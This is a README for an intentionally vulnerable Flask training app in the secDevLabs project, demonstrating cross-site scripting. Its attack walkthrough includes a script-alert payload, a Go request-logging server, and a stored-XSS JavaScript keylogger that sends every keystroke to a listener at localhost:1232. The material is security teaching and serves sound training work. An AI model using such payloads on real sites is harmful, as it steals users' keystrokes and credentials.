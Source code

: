 # Gossip World

<p align="center">
    <img src="images/banner.png"/>
</p>

Gossip World is a simple Flask app that contains an example of multiple Cross-Site Scripting vulnerabilities and its main goal is to describe how a malicious user could exploit them on this purposefully vulnerable app.

## Index

- [Definition](#what-is-cross-site-scripting)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What is Cross-Site Scripting?

XSS flaws occur whenever an application includes untrusted data in a new web page without proper validation or escaping, or updates an existing web page with user-supplied data using a browser API that can create HTML or JavaScript. XSS allows attackers to execute scripts in the victim’s browser which can hijack user sessions, deface web sites, or redirect the user to malicious sites.

The main goal of this app is to discuss how **Cross-Site Scripting** vulnerabilities can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][Docker Install] and [Docker Compose][Docker Compose Install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2017-apps/a7/gossip-world
```

```sh
make install
```

Then simply visit [localhost:10007][App] ! 😆

## Get to know the app 💄

To properly understand how this application works, you can follow these simple steps:

- Create a new user
- Try leaving a comment on a gossip
- Try creating your gossip!

## Attack narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### Note: This attack narrative works best in Mozilla Firefox.

### 👀

#### Non-sanitization of user input allows for cross-site scripting

After inspecting the application, it is possible to identify that some entries are not sanitized and can be executed on a web browser. It occurs on *search*, *comment* and *post* fields. The following images show this behavior when the following text  is used as an input on these fields:

```
<script>alert(1)</script>
```

Searching for a post:
   <img src="images/attack-1.png" align="center"/>
   <img src="images/attack-2.png" align="center"/>

Adding a new comment to a post:
   <img src="images/attack-3.png" align="center"/>
   <img src="images/attack-4.png" align="center"/>

Adding a new post:
   <img src="images/attack-5.png" align="center"/>
   <img src="images/attack-6.png" align="center"/>


The missing input validation allows a malicious user to insert some scripts that will persist in the server and be executed on the victims' browser every time they access the routes that contain these scripts.

### 🔥

An attacker may abuse these flaws by generating a malicious JS code and sending it to other users. To demonstrate this, the following example will get all keyboard input from a user by persisting a malicious code in the server.

First, the following Golang API can be built (main.go) that logs all received requests:

```go
package main

import (
   "fmt"
   "github.com/labstack/echo"
)

func main() {
   e := echo.New()
   e.GET("/:k", handler)
   e.Logger.Fatal(e.Start(":1232"))
}

func handler(c echo.Context) error {
   fmt.Println(c.Request().RemoteAddr, c.Param("k"))
   return nil
}
```
   
To run this code simply type the following command in your terminal (you should check this [guide](https://golang.org/doc/install) if you need any help with Golang): 

```sh
go run main.go
```

Then, the attacker can insert a new post through the **/newgossip** route by using the following code in the text field:

```html
<script>
var k="";
document.onkeypress=function(e) {
   e = e || window.event;
   k+=e.key;
   var i=new Image;
   i.src="http://localhost:1232/"+k;
}
</script>
```

This code implements a keylogger to capture all keyboard input from users and send it to the API created beforehand.

   <img src="images/attack-7.png" align="center"/>

When a victim accesses the post, the browser will interpret the text between the script tag as code and will execute it secretly. The following image shows the victim typing letters into the page that has been "infected" by the malicious JS:

<img src="images/attack-8.png" align="center"/>

The attacker now gets all the input on the server log, as shown below: 

<img src="images/attack-9.png" align="center"/>

## Secure this app

How would you mitigate this vulnerability? After your changes, an attacker should not be able to:

* Execute scripts through input fields

## PR solutions

[Spoiler alert 🚨] To understand how this vulnerability can be mitigated, check out [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22Gossip+World%22)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[Docker Install]:  https://docs.docker.com/install/
[Docker Compose Install]: https://docs.docker.com/compose/install/
[App]: http://localhost:10007